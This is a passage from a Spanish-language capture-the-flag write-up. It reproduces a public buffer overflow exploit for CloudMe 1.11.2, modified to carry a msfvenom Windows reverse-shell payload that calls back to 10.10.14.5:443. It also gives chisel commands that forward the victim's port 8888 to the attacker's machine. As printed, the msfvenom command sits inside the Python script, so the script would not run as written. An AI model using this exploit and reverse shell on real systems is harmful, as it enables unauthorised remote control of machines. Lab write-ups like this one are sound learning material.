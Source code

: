 ### Buffer Overflow

Vemos muchos de **Buffer Overflow**, vamos a probar el primero a ver de qué trata:

```python title="Buffer Overflow exploit modificado con Reverse shell" wrap=false
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

Para poder acceder a este puerto deberemos hacer **port forwarding**, en este caso lo haremos con la herramienta **chisel** y nos pondremos como servidor desde nuestra máquina atacante con el siguiente comando:

```bash
./chisel server --reverse -p 1234
```

Y desde la máquina víctima usaremos este comando para redirigir el puerto:

```bash
chisel.exe client 10.10.14.5:1234 R:8888
```

De esta manera lo que conseguimos es tener en nuestro puerto local **1234** el de la máquina víctima **8888**.
